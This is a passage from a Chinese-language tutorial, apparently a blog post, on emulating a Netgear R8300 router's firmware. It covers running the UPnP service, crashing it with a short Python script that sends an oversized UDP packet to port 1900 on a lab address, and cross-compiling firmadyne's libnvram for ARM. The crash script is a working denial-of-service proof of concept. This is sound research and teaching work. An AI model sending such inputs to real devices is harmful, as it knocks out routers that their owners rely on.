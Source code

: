 ```c
Unsupported setsockopt level=0 optname=32
UPNP: error to use LAN IP to be the interface of sending mulitcast datagram!
[0x0001d1a0] acosNvramConfig_get('upnp_advert_period') = '30'
[0x0001d200] acosNvramConfig_match('upnp_turn_on', '1') = 1
```

看起来是启动了，upnp的服务为1900端口：

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1660286121936-b1b18eb6-295a-48c0-8274-b9ede2a07295.png)

因为该版本的upnp有Stack Overflow，尝试着让其崩溃：

```python
import socket

s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
s.connect(('10.211.55.11', 1900))               
s.send(0x1000*b'a')
s.close()          
```

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1660286190447-43c6cacf-2689-4ca8-b5e1-1eb3cfafb44f.png)

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1660286231759-6f836385-31bc-480f-a906-0dd74e61f7fa.png)

程序崩溃，成功！

### ②、使用libnvram
#### 正常模拟
下面我们使用firmadyne的libnvram进行hook，整个过程可能有“亿点点”波折...

> + [https://github.com/firmadyne/libnvram](https://github.com/firmadyne/libnvram)（`git clone https://github.com/firmadyne/libnvram.git`）
>

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1660286804706-acb81f8f-f7ca-45a3-9679-091a462cf154.png)

你可别见到Makefile就直接make，直接make编译出来的是x86的：

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1660286863547-86b28bde-2bea-4bc0-8b7f-f3496f0d4f51.png)

但是我们可以得到编译该动态链接库的命令：

1. `【编译器】 -c -O2 -fPIC -Wall nvram.c -o nvram.o`
2. `【编译器】 -shared -nostdlib nvram.o -o libnvram.so`

现在我们直接编译，挂载到固件中看会出现什么错误：

1. `cd /home/cyberangel/Desktop/`
2. `export LD_LIBRARY_PATH="$PWD/hndtools-arm-linux-2.6.36-uclibc-4.5.3/lib"`
3. `./hndtools-arm-linux-2.6.36-uclibc-4.5.3/bin/arm-uclibc-gcc -c -O2 -fPIC -Wall /home/cyberangel/Desktop/模拟固件下的patch与hook/Netgear_R8300/libnvram-master/nvram.c -o /home/cyberangel/Desktop/模拟固件下的patch与hook/Netgear_R8300/libnvram-master/firmadyne_nvram.o`
4. `./hndtools-arm-linux-2.6.36-uclibc-4.5.3/bin/arm-uclibc-gcc -shared -nostdlib /home/cyberangel/Desktop/模拟固件下的patch与hook/Netgear_R8300/libnvram-master/firmadyne_nvram.o -o /home/cyberangel/Desktop/模拟固件下的patch与hook/Netgear_R8300/libnvram-master/firmadyne_libnvram.so`

